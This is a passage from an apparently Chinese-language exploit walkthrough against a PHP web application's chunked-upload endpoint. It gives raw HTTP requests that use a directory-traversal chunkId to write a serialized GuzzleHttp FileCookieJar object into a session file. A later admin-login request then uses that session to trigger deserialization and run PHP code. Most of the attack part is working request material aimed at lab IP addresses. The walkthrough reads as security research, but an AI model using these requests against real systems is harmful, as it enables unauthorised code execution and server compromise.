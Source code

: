 ```
  "chunkId": "1/../../sessions/session_tXEWsmpuZEoZqJqMmSgqUYUFZzMwuRvL",
  "index": 1
}
```  
  
这里的关键是 **chunkId**  
 参数值为：  
  
 1/../../sessions/session_tXEWsmpuZEoZqJqMmSgqUYUFZzMwuRvL  
，这构成了一个目录穿越路径，指向会话文件。  
  
 上传的内容是一个经过序列化的 **GuzzleHttp\Cookie\FileCookieJar**  
 对象，包含了要执行的 PHP 代码。由于正则表达式 /^[0-9\-]/  
 只检查第一个字符，而 1  
 符合这个要求，所以这个请求能够通过验证。  
  
### 步骤三：发送合并请求，触发文件写入  
```
POST /index/user/upload?action=marge&chunkId=-/../../sessions/session_tXEWsmpuZEoZqJqMmSgqUYUFZzMwuRvL&fileExt=jpg&mimeType=image/jpeg&chunkCount=2&fileSize=500&source=1 HTTP/1.1
Host: 192.168.3.3:8787
Cookie: SESSION_ID=bbd4d396f614da41a0cb74da972ff844; uid=2; token=250e4ef8162d56748202c5ad95f1058c; nickname=go0p
User-Agent: Mozilla/5.0 (Macintosh; Intel Mac OS X 10_15_7) AppleWebKit/537.36 (KHTML, like Gecko) Chrome/133.0.0.0 Safari/537.36
Origin: http://127.0.0.1:8093
Content-Type: multipart/form-data; boundary=----WebKitFormBoundaryGm1kPOLTg3kmc3MF
Content-Length: 176
------WebKitFormBoundaryGm1kPOLTg3kmc3MF
Content-Disposition: form-data; name="file"; filename="1."
Content-Type: image/jpeg
------WebKitFormBoundaryGm1kPOLTg3kmc3MF--
```  
  
这个请求通过 `action=marge` 参数触发合并操作，目标依然是前面的同一个会话文件。  
  
  
![](https://mmbiz.qpic.cn/mmbiz_png/f7AtEgJhMZcZEfibgt3AwvYxcwGUeXQGpcpeibAfXMIV5WJG73cicuUoEQnqwJv3WQJiauZ9QicIYiasmuJtpXlXroPw/640?wx_fmt=png&from=appmsg "")  
  
### 步骤四：触发反序列化  
  
我们找到后台登录页面，用户名和密码随意输入，通过设置 SESSION_ID 为前两步的Seesion，点击登录：  
```
POST /admin/login/index HTTP/1.1
Origin: http://192.168.3.3:8787
Referer: http://192.168.3.3:8787/admin/login
User-Agent: Mozilla/5.0 (Windows NT 10.0; Win64; x64) AppleWebKit/537.36 (KHTML, like Gecko) Chrome/137.0.0.0 Safari/537.36
Cookie: SESSION_ID=tXEWsmpuZEoZqJqMmSgqUYUFZzMwuRvL; uid=2; token=250e4ef8162d56748202c5ad95f1058c; nickname=go0p
Host: 192.168.3.3:8787
Content-Length: 33
name=go0p&pwd=1231312313&captcha=
```  
  